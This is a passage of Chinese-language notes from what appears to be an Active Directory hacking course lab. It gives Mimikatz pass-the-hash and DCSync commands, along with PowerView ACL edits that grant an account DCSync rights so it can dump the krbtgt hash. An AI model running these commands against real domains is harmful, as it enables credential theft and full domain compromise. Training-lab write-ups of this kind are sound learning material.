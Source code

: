 ## If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.

开一个DA的shell

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```



添加完全控制权限
```
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student366 -Rights All -Verbose
```
再把Dcsync权限赋予当前学生账号student366
```
Add-ObjectAcl -TargetDistinguishedName"dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student366 -Rights DCSync -Verbose
```

再次查看本账号是否有Dcsync权限

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

![image-20220307210310991](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307210310991.png)

已经出现```ActiveDirectoryRights : GenericAll```表示成功赋权

执行Dcsync,导出krbtgt哈希（也可以是其他用户,此操作需要在DA权限的shell里操作）
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```



![image-20220307210510322](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307210510322.png)



# Learning Objective 13:
```Task
● Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access.
● Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI.
```

## Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access.
